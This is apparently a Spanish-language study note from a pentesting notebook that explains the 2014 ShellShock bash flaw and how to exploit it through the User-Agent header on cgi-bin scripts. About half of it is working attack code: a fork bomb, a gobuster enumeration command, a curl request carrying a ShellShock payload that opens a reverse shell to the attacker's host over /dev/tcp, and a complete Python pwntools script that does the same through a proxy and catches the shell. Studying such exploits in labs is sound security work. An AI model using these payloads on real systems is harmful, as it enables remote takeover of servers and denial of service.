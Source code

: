 ----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **ataque ShellShock** ? 

Un ataque **ShellShock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática. 

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar porgramas maliciosos, etc. 

La vulnerabilidad ShellShock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de Shell. El problema radica en la forma en que Bahs maneja las variable de entorno. Los atacantes pueden inyectar código malicoso en estas variables de entorno, las cuales Bash ejecuta sin cuestion su origin o contenido. 

Los atacantes pueden explotar estas vulnerabilidades a través de diferentes vectores de atauqe. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para indentifcar el tipo de navegador y sistema operativo qu está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

---
# Expotación 

Para explotar un ShellShock Attack, es importante tener en cuenta que para saber si este es vulnerable, es necesario probarlo, asi como tener en cuenta que este funciona para viejas versiones de bash. 

Existen [páginas webs](https://blog.cloudflare.com/inside-shellshock/) que enseñan a explotar dicha vulnerabilidad, esto suele ser posible a traves del **User-Agent** el cual recibe como valor un payload con la sig. estructura: `() { :; }; echo; <commando_to_execute>`. Este payload es simpilar al del [Fork Bomb Attack](https://en.wikipedia.org/wiki/Fork_bomb) el cual es un ataque de denegación de servicio con la estructura de: 
```shell 
:(){:|:&};:
# O 
fork(){
	fork | fork &
}; 
fork 
```
Por lo que se podría tramitar una petición curl de la sig. manera, teniendo en cuenta que mediante *gobuster* se encontro por fuzzing la URL **cig-bin**, sabiendo que siempre que veamos una ruta como esta es importante probar un **ShellShock Attack**: 

```shell
# Es importante al descubrir un dir cgi-bin, buscar archivos con la extensión pl o sh o cgi. 
gobuster dir -u http://<ip>:<port>/cgi-bin --proxy http://<proxy_ip>:<proxy_port> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

```shell
curl --proxy http://<proxy_ip>:<proxy_port> -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &>/dev/tcp/<own_ip>/<port> 0>&1'" "http://<ip>:<port>/cgi-bin/status"
```
Así mismo, podríamos crear un script en python para entablar una consola interactiva o mismo para ejecutar comandos 

```python
#!/usr/bin/python3 

import sys, signal, requests, threading
from pwn import * 

# Ctrl + c

def ctrl_c(sig, frame): 
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars 

url = "http://192.168.1.38/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.1.38:3128'}
lport = 443

# Bin 

def shell_shock(): #command 

    headers = {'User-Agent':'() { :; }; echo; /bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.1.35/443 0>&1"'}
    #user_agent = {'User-Agent': '() { :; }; echo; %s' % (command)} 

    r = requests.get(url, headers=headers, proxies=squid_proxy)
    #print("\n\n\t(!) Output del comando: %s" % (r.text))

if __name__ == "__main__": 
    #command = input("Ingrese un comando a ejecutar: ")
    #shell_shock(command)
    try:
        threading.Thread(target=shell_shock, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else: 
        shell.interactive()
```
La libreria **pwntools/pwn** sirve para poder entablar una consola interactiva, entre otras cosas. Mientras que la libreria **threading** para ejecutar las cosas con hilos. 

#### threading.Thread().start()   ---->  **Iniciar un nuevo hilo**
#### target=() ----> **Función a ejecutar** 
#### args=() ----> **Argumentos a pasarle a la función** 

#### listen() ----> **Ponerse en escucha a espera de una conexión** 
#### lport, timeout=20 -----> **Puerto, Tiempo de espera** 
#### .interactive() ----> **Abrir la consola en base de la conexión** 

